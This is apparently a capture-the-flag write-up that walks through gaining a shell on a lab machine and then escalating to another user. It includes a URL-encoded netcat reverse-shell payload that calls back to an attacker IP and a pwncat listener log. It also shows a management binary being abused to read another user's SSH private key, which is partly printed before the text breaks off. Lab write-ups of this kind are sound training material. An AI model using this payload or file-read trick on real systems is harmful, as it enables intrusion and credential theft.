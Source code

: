 `www-data 	8794732211 	11`

## Inital Access

I then created a URL encoded reverse shell from RevShells:

`?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.***.***%204444%20%3E%2Ftmp%2Ff`

And setup a listener locally using `pwncat`.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

And we get a response!

```
[05:17:22] 10.10.11.232:51072: upgrading from /usr/sbin/nologin to /usr/bin/bash
[05:17:23] 10.10.11.232:51072: registered new host w/ db
[05:17:24] listener: 10.10.16.9:4444: linux session from 10.10.11.232:51072
           established
```

## User Flag

Looking for files owned by the user `jack` (seen in the `/home` directory) shows some interesting results in the `/opt` folder.

```
$ find / -user jack 2>/dev/null
/home/jack
/opt/manage
/opt/manage/README.txt
/opt/manage/execute_query
$ ls /opt/manage
README.txt execute_query
$ cat README.txt
Web application Management

Use the binary to execute the following task:
	- 1: Creates the database structure and adds user admin
	- 2: Creates fake players (better not tell anyone)
	- 3: Resets the admin password
	- 4: Deletes all users except the admin
```

After, **alot** of time... I found using values <4 for the binary input is a read file function, so we can read the SSH keys of `jack` by doing this:

```
$ ./execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
J/tSzgoR9Fko8I1UpLnHCLz2Ezsb/MrLCe8nG5TlbJrrQ4HcqnS4TKN7DZ7XW0bup3ayy1
kAAZ9Uot6ep/ekM8E+7/39VZ5fe1FwZj4iRKI+g/BVQFclsgK02B594GkOz33P/Zzte2jV
Tgmy3+htPE5My31i2lXh6XWfepiBOjG+mQDg2OySAphbO1SbMisowP1aSexKMh7Ir6IlPu
nuw3l/luyvRGDN8fyumTeIXVAdPfOqMqTOVECo7hAoY+uYWKfiHxOX4fo+/fNwdcfctBUm
pr5Nxx0GCH1wLnHsbx+/oBkPzxuzd+BcGNZp7FP8cn+dEFz2ty8Ls0Mr+XW5ofivEwr3+e
30OgtpL6QhO2eLiZVrIXOHiPzW49emv4xhuoPF3E/5CA6akeQbbGAppTi+EBG9Lhr04c9E
2uCSLPiZqHiViArcUbbXxWMX2NPSJzDsQ4xeYqFtAAAFiO2Fee3thXntAAAAB3NzaC1yc2
```